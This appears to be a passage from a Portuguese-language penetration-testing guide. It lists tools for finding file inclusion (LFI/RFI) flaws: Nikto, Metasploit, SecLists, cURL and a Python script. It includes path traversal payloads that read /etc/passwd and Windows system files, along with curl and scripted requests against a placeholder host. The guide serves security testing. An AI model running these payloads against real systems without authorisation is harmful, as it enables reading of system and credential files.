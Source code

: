 #### **D. Nikto**
- **Descrição:** Ferramenta para identificar vulnerabilidades conhecidas.
- **Como usar:**
  - Execute varreduras automáticas para encontrar problemas de inclusão de arquivos:
    ```bash
    nikto -h http://target.com
    ```

#### **E. Metasploit**
- **Descrição:** Framework para exploração de vulnerabilidades.
- **Como usar:**
  - Use módulos específicos para explorar LFI e RFI:
    ```bash
    use auxiliary/scanner/http/http_lfi
    set RHOSTS target.com
    set RPORT 80
    run
    ```

#### **F. SecLists**
- **Descrição:** Coleção de payloads de segurança.
- **Como usar:**
  - Combine com ferramentas como Burp Suite ou wfuzz para injetar payloads em parâmetros vulneráveis:
    ```plaintext
    ../../../../etc/passwd
    ../../../../windows/system32/drivers/etc/hosts
    ../../../index.php
    ```

#### **G. cURL**
- **Descrição:** Ferramenta de linha de comando para envio de requisições HTTP.
- **Como usar:**
  - Envie payloads diretamente para o servidor:
    ```bash
    curl "http://target.com/page?file=../../../../etc/passwd"
    ```

#### **H. Python Scripts Personalizados**
- **Descrição:** Scripts para testar LFI/RFI de forma automatizada.
- **Como usar:**
  - Crie scripts para explorar parâmetros vulneráveis:
    ```python
    import requests

    url = "http://target.com/page"
    payloads = ["../../../../etc/passwd", "../../../../windows/win.ini"]
    for payload in payloads:
        response = requests.get(url, params={"file": payload})
        if "root:" in response.text or "[extensions]" in response.text:
            print(f"Vulnerável: {payload}")
    ```

